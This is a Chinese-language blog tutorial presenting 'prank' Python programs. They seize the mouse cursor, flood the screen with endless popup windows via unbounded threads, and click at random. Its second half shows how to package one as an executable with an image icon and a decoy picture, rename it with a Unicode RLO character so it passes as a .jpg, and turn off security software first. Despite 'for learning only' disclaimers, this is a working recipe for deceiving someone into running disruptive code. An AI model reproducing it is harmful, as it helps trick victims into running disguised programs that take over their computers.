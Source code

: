 今天给大家展现一个不一样的我——一个干坏事的我，我们一起来制作一个简易恶作剧小程序，虽说是一个恶作剧，但是不传染，甚至可以在实体机中运行，安全无害。

此程序仅供学习，请勿用于不法之途。

<hr>

# 开始写代码！
请注意：<b>害人之心不可有，防人之心不可无</b>。万万不可将下面的代码用于不法之途，以下代码仅用于学习交流！</font>
<hr>

## 如何操作
### 先写代码
创建一个空白的`python`文档，命名为`program.py`，输入以下代码：

```python
from autopy import mouse
from tkinter import Tk
from random import randint

window = Tk()
window.withdraw()

width = window.winfo_screenwidth()
height = window.winfo_screenheight()

while True:
    try:
        mouseX = randint(0,width)
        mouseY = randint(0,height)
        
        mouse.move(mouseX,mouseY)
    except:
        pass
```
只有十八行代码，但是可以让鼠标随机闪现，无法控制。

或者这个代码（参考到了[《用python实现祝福弹窗》](https://blog.csdn.net/qq_39046854/article/details/82831943)）：

```python
from tkinter import Tk,Label
from random import randint
from threading import Thread

def create():
    window = Tk()
    width = window.winfo_screenwidth()
    height = window.winfo_screenheight()
    x = randint(0,width)
    y = randint(0,height)
    window.title('中病毒快乐')
    window.geometry("200x50" + "+" + str(x) + "+" + str(y))
    Label(window,text = '中病毒快乐！',bg = 'red',font = ('楷体', 17),width = 15, height = 2).pack()
    window.mainloop()
 
threads = []
record = 0
while True:
    t = Thread(target = create)
    threads.append(t)
    threads[record].start()
    record += 1
```
二十二行代码，不一会让你的电脑铺满窗口。

这段代码也可以：

```python
from autopy import mouse
from random import randint
from time import sleep

seconds = randint(1,600) #随机设定一个区间，你可以修改

while True:
    try:
        mouse.smooth_move(seconds,0)
        mouse.click()
        mouse.toggle(True)
        mouse.toggle(False)
        sleep(seconds)
    except Exception as e:
        pass
```

<hr>

### 破解方法
①重启电脑；
②打开命令提示符后输入`taskkill /im python.exe /f`，同样都可以结束。如果你的程序已经打包，那么代码写成`taskkill /im 你的程序名称.exe /f`即可。

<hr>

## 打包、伪装
#### 第一件事
我们随便从网上下载一张图片吧，随便一张，比如说这个（来自`360图片`）：
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/20210208193858592.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BhbkRhb3hpMjAyMA==,size_16,color_FFFFFF,t_70)
下载下来后，将`.png`图片命名为`image.png`，图标命名为`icon.ico`，我们打开[图标转换器](https://www.aconvert.com/cn/icon/png-to-ico/)，改为图标，两个文件都保存好。

创建一个文件夹，命名为`build`，将`image.png`剪切进去。
#### 第二件事
我们要先改下代码，加几行：

```python
from os import system
system(r'call "build\image.png"')
```
<hr>

#### 第三件事
打开命令提示符，切换到当前目录，输入以下代码：

```python
pyinstaller -F program.py -w -i icon.ico
```

![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/20210208200900135.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BhbkRhb3hpMjAyMA==,size_16,color_FFFFFF,t_70)

打包完成后，我们将应用程序剪切出来。注意，我们需要关掉所有的安全软件，改一下程序的名称：
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/2021020820110292.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BhbkRhb3hpMjAyMA==,size_16,color_FFFFFF,t_70)
注意要选中完整的文件名称，包含拓展名，统统删掉，然后插入`Unicode`控制字符，选择里面的`RLO`一项，按照高亮的步骤操作，输入`gpj.exe`即可。
只要对方不打开属性看，就很难发现这是一个应用程序。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/20210208203218360.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BhbkRhb3hpMjAyMA==,size_16,color_FFFFFF,t_70)
还是那句话，**不要用于不法之途，仅供学习讨论**。

